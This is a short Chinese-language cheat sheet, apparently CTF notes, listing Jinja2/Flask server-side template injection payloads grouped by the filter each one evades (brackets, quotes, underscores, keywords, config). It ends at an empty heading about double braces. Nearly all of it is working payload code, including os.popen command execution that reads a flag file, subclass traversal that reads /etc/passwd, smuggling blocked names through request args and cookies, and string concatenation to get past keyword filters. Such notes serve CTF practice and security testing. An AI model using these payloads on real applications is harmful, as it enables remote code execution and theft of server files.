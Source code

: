 

### 过滤中括号和单引号

```
{{url_for.__globals__.os.popen(request.values.x).read()}}&x=cat /flag
```



### 过滤下划线

```
{{(lipsum|attr(request.values.x)).os.popen(request.values.cmd).read()}}&x=__globals__&cmd=cat /flag
```



```py
# request妙用，绕过
{{''[request.args.a][request.args.b][2][request.args.c]()}}&a=__class__&b=__mro__&c=__subclasses__

# request传参绕过
# request.args
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__

# request.cookies
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}
Cookie: class=__class__; mro=__mro__; subclasses=__subclasses__;
# 还有request.headers、request.args
```





### 过滤关键字

拼接字符串

```
'o'+'s'
'sy' + 'stem'
'fl' + 'ag'
```

编码

大小写绕过

过滤config

```
# 绕过，同样可以获取到config
{{self.dict._TemplateReference__context.config}}
```



### 过滤双花括号
